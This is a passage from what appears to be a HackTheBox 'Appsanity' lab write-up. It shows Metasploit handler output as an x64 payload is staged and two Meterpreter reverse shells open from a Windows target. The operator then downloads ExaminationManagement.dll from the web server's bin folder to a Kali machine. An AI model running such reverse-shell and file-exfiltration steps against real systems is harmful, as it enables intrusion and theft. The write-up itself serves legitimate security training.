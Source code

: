 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[!] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Without a database connected that payload UUID tracking will not work!
[*] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Staging x64 payload (201820 bytes) ...
[!] https://10.10.14.71:9998 handling request from 10.129.134.38; (UUID: omvmaxhy) Without a database connected that payload UUID tracking will not work!
[*] Meterpreter session 1 opened (10.10.14.71:9998 -> 10.129.134.38:62064) at 2023-11-04 06:55:45 -0400
[*] Meterpreter session 2 opened (10.10.14.71:9998 -> 10.129.134.38:62063) at 2023-11-04 06:55:45 -0400

msf6 exploit(multi/handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                          Connection
  --  ----  ----                     -----------                          ----------
  1         meterpreter x64/windows  APPSANITY\svc_exampanel @ APPSANITY  10.10.14.71:9998 -> 10.129.134.38:62064 (10.129.134.38)
  2         meterpreter x64/windows  APPSANITY\svc_exampanel @ APPSANITY  10.10.14.71:9998 -> 10.129.134.38:62063 (10.129.134.38)

msf6 exploit(multi/handler) > sessions 1
[*] Starting interaction with 1...

meterpreter > 
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Found some dlls in `inetpub` folder and downloaded them for inspection

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
meterpreter > dir
Listing: c:\inetpub\ExaminationPanel\ExaminationPanel\bin
=========================================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  591752   fil   2023-09-24 11:46:11 -0400  EntityFramework.SqlServer.dll
100666/rw-rw-rw-  4991352  fil   2023-09-24 11:46:13 -0400  EntityFramework.dll
100666/rw-rw-rw-  13824    fil   2023-09-24 11:46:10 -0400  ExaminationManagement.dll
100666/rw-rw-rw-  40168    fil   2023-09-24 11:46:10 -0400  Microsoft.CodeDom.Providers.DotNetCompilerPlatform.dll
100666/rw-rw-rw-  206512   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.EF6.dll
100666/rw-rw-rw-  206520   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.Linq.dll
100666/rw-rw-rw-  431792   fil   2023-09-24 11:46:11 -0400  System.Data.SQLite.dll
040777/rwxrwxrwx  24576    dir   2023-09-24 11:49:49 -0400  roslyn
040777/rwxrwxrwx  0        dir   2023-09-24 11:49:49 -0400  x64
040777/rwxrwxrwx  0        dir   2023-09-24 11:49:49 -0400  x86
meterpreter > download ExaminationManagement.dll
[*] Downloading: ExaminationManagement.dll -> /home/kali/HTB/Appsanity/ExaminationManagement.dll
[*] Downloaded 13.50 KiB of 13.50 KiB (100.0%): ExaminationManagement.dll -> /home/kali/HTB/Appsanity/ExaminationManagement.dll
[*] Completed  : ExaminationManagement.dll -> /home/kali/HTB/Appsanity/ExaminationManagement.dll

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
